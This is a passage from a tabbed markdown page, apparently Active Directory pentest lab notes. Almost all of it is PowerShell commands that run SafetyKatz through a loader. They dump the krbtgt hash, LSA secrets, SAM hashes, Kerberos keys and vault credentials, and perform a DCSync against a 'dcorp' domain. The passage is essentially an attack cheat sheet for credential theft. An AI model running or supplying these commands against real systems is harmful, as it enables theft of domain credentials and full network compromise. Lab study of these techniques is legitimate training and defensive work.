 ```powershell
# Dump the NT hash of krbtgt
c:\users\public\loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe -args "lsadump::evasive-lsa /patch" "exit"
```
{% endcode %}
{% endtab %}

{% tab title="Exfil" %}
{% code overflow="wrap" %}
```powershell
# Keys
Loader.exe -path SafetyKatz.exe -args "sekurlsa::evasive-keys" "exit"

# LSA
"lsadump::evasive-lsa /patch" "exit"

# SAM
"token::elevate" "lsadump::evasive-sam" "exit"

# Vault
"token::elevate" "vault::cred /patch" "exit"

# DCSync
"lsadump::evasive-dcsync /user:dcorp\krbtgt" "exit"
```
{% endcode %}
{% endtab %}
{% endtabs %}
